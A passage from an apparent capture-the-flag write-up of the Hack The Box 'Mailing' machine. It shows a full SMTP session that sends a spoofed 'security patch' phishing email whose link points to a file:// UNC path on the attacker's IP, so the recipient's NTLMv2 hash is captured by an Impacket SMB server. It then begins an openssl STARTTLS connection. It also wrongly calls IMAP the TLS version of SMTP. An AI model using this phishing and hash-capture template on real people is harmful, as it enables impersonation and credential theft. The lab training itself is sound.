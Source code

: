 The body of the email could something like this.
```markdown
data
354 OK, send.
From: administrator@mailing.htb
To: maya@mailing.htb
Subject: URGENT - security patch
MIME-Version: 1.0;
Content-Type: multipart/alternative; boundary="boundary_string"

--boundary_string
Content-Type: text/plain; charset="utf-8"

Hey Maya, read this in HTML mode and click on the attached link asap. 

--boundary_string
Content-Type: text/html; charset="utf-8"

<html>
<body>
<h1><a href="file:///\\10.10.xxx.xxx\dummy!smtp">urgent click here to install security patch</a></h1>
</body>
</html>

--boundary_string--

.
250 Queued (12.703 seconds)
quit
221 goodbye
```
Remember that to finish the email data and add to queue for sending you need to press "enter" + "." + "enter".

![Untitled3](https://github.com/user-attachments/assets/b26bd82c-1a7a-4030-8cd3-0850b7f87054)

Now start an Impacket SMB server. If everything goes well, in a couple of minutes maya will click on the email link and we will be able to capture her NTLMv2 hash.

![Untitled4](https://github.com/user-attachments/assets/d2180bbb-a457-48b4-8910-959851b84ffa)

Other option is to use the IMAP protocol, the TLS encrypted version of SMTP. For this, we need to connect to port 587 using the STARTTLS protocols extension and initiate a TLS handshake. We cannot do this with Telnet/Netcat because TLS is binary and involves cryptography, and you cannot do this by hand. Instead, we can use the `openssl s_client` command.<br>

Start a secure TLS connection to port 587 (the flag `-crlf` is used to automatically send a "CRLF" character after each line).

```bash
> openssl s_client -starttls smtp -connect mailing.htb:587 -crlf
CONNECTED(00000003)
depth=0 C = EU, ST = EU\\Spain, L = Madrid, O = Mailing Ltd, OU = MAILING, CN = mailing.htb, emailAddress = ruy@mailing.htb
verify error:num=18:self-signed certificate
verify return:1
depth=0 C = EU, ST = EU\\Spain, L = Madrid, O = Mailing Ltd, OU = MAILING, CN = mailing.htb, emailAddress = ruy@mailing.htb
verify return:1
---
Certificate chain
 0 s:C = EU, ST = EU\\Spain, L = Madrid, O = Mailing Ltd, OU = MAILING, CN = mailing.htb, emailAddress = ruy@mailing.htb
   i:C = EU, ST = EU\\Spain, L = Madrid, O = Mailing Ltd, OU = MAILING, CN = mailing.htb, emailAddress = ruy@mailing.htb
```